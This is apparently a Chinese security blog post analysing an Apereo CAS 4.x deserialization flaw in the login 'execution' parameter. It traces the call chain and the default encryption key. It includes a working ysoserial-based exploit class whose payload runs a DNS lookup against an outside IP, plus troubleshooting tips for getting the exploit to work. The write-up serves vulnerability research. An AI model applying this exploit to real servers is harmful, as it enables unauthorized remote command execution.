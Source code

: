 ```yaml
---
layout: post
title: "Apereo Cas 反序列化漏洞"
categories: "WebSecurity"
---
```


#### 0x00 漏洞描述

在Apereo Cas 4.X版本(测试了4.1.5、4.2.0)中的loginHandlerAdapter中存在反序列化漏洞，触发漏洞的是在登录中的execution参数，提交特定的数据即会触发命令执行

#### 0x01 漏洞分析

首先反序列化的执行点为：org.jasig.spring.webflow.plugin.EncryptedTranscoder#decode

 ```java
public Object decode(byte[] encoded) throws IOException {
    byte[] data;
    try {
        data = this.cipherBean.decrypt(encoded);	// 解密数据
    } catch (Exception var11) {
        throw new IOException("Decryption error", var11);
    }

    ByteArrayInputStream inBuffer = new ByteArrayInputStream(data);
    ObjectInputStream in = null;

    Object var5;
    try {
        if (this.compression) {
            in = new ObjectInputStream(new GZIPInputStream(inBuffer));
        } else {
            in = new ObjectInputStream(inBuffer);
        }

        var5 = in.readObject();			// 反序列化
    } catch (ClassNotFoundException var10) {
        throw new IOException("Deserialization error", var10);
    } finally {
        if (in != null) {
            in.close();
        }
    }
    return var5;
}
 ```

通过分析后梳理出大致的调用栈如下：

```
org.jasig.spring.webflow.plugin.EncryptedTranscoder#decode
org.jasig.spring.webflow.plugin.ClientFlowExecutionRepository#getFlowExecution
org.springframework.webflow.executor.FlowExecutorImpl#resumeExecution
org.springframework.webflow.mvc.servlet.FlowHandlerAdapter#handle
```

而最外层的直接对应loginHandlerAdapter，cas-servlet.xml中对应配置：

```xml
<bean id="loginHandlerAdapter" class="org.jasig.cas.web.flow.SelectiveFlowHandlerAdapter"
          p:supportedFlowId="login" p:flowExecutor-ref="loginFlowExecutor" p:flowUrlHandler-ref="loginFlowUrlHandler"/>
```

可控的数据在FlowHandlerAdapter.handle中接收，并传入到调用链中：

```
public ModelAndView handle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
    FlowHandler flowHandler = (FlowHandler)handler;
    this.checkAndPrepare(request, response, false);
    String flowExecutionKey = this.flowUrlHandler.getFlowExecutionKey(request);		// 这里直接获取POST参数execution
    if (flowExecutionKey != null) {
        try {
            ServletExternalContext context = this.createServletExternalContext(request, response);
            FlowExecutionResult result = this.flowExecutor.resumeExecution(flowExecutionKey, context);		// 触发链
            this.handleFlowExecutionResult(result, context, request, response, flowHandler);
        } catch (FlowException var11) {
            this.handleFlowException(var11, request, response, flowHandler);
        }
    }
```

传入的数据在反序列化之前，会先进行解密操作：org.jasig.spring.webflow.plugin.ClientFlowExecutionRepository#getFlowExecution

```
ClientFlowExecutionRepository.SerializedFlowExecutionState state = (ClientFlowExecutionRepository.SerializedFlowExecutionState)this.transcoder.decode(encoded);
```

后续跟入分析了decode的流程，默认并未使用随机key进行加解密，相关的调用栈如下：

```
org.cryptacular.bean.AbstractCipherBean#decrypt(byte[])
org.cryptacular.CiphertextHeader#decode(byte[])
org.cryptacular.bean.AbstractBlockCipherBean#process(org.cryptacular.CiphertextHeader, boolean, byte[])
org.cryptacular.bean.BufferedBlockCipherBean#newCipher
```

这里在利用时，直接使用org.apereo.spring.webflow.plugin.EncryptedTranscoder进行数据的加密即可

至此相关的关键点就比较清楚了：

* 可控的数据如何传入
* 可控数据的加解密
* 反序列化的执行点
* 完整的触发链

#### 0x02 漏洞利用

利用脚本：

```java
package ysoserial;

import org.cryptacular.util.CodecUtil;
import ysoserial.payloads.ObjectPayload;
import org.apereo.spring.webflow.plugin.EncryptedTranscoder;

public class ApereoExploit {

    public static void main(String[] args) throws Exception{
        String poc[] = {"CommonsCollections5","nslookup pench3r.github.io 159.65.72.169"};
        final Object payloadObject = ObjectPayload.Utils.makePayloadObject(poc[0], poc[1]);
        //AES加密
        EncryptedTranscoder et = new EncryptedTranscoder();
        byte[] encode = et.encode(payloadObject);
        // Object decode = et.decode(encode);
        //base64编码
        System.out.println(CodecUtil.b64(encode));
        byte[] decode = CodecUtil.b64(CodecUtil.b64(encode));
        System.out.println("Done");
    }
}
```

本地环境搭建时需要注意一些包的版本信息：

```xml

<dependency>
    <groupId>org.cryptacular</groupId>
    <artifactId>cryptacular</artifactId>
    <version>1.0</version>
</dependency>
<dependency>
    <groupId>org.apereo</groupId>
    <artifactId>spring-webflow-client-repo</artifactId>
    <version>1.0.3</version>
</dependency>
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>		// 为了本地调试
    <version>3.1</version>
</dependency>

```

<strong>本地测试的思路：</strong>

* 添加commons collections3.1版本，可以提供反序列化攻击链
* 使用EncryptedTranscoder的encode和decode可以直接测试是否可以成功执行命令
* 最后在测试环境中动态调试比对那些地方需要调整

<strong>碰到的一些问题：</strong>

* 在jdk8的环境下，使用CommonsCollections1时，提示：`java.lang.annotation.IncompleteAnnotationException: java.lang.Override missing element entrySet`;

  解决办法：使用CommonsCollections5即可

* 在测试环境一直失败，通过调试发现，在EncryptedTranscoder.decode时所接受的data与payload生成的data数据不一致，原因是payload和环境中使用的org.cryptacular版本不一致导致

  解决办法：payload切换org.cryptacular版本为1.0即可

* 在测试环境中跟踪反序列化过程，检测到`ClassNotFoundException: org.apache.commons.collections.keyvalue.TiedMapEntry`

  解决办法：将commons-collections3.1.jar加入到测试环境中的CLASSPATH中即可

#### 0x03 总结

该漏洞的形式跟shiro反序列化的类似，同样是因为反序列化的数据过度依赖自身的加密算法进行解密，算法本身没有问题，问题是算法使用的key都是默认值导致攻击者可以去构造对应的数据
